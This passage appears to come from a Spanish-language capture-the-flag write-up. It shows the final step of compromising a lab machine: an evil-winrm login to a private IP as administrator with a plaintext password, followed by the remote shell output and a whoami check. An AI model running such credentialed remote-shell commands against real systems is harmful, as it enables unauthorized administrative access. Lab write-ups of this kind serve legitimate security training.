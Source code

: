 Una vez cambiada nos conectamos usando dichas credenciales:

```bash
$ evil-winrm -i 192.168.200.4 -u administrador -p Murrusko0
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrador\Documents> whoami
chimichurri0\administrador
*Evil-WinRM* PS C:\Users\Administrador\Documents>
```

Y con esto damos por finalizada la máquina.
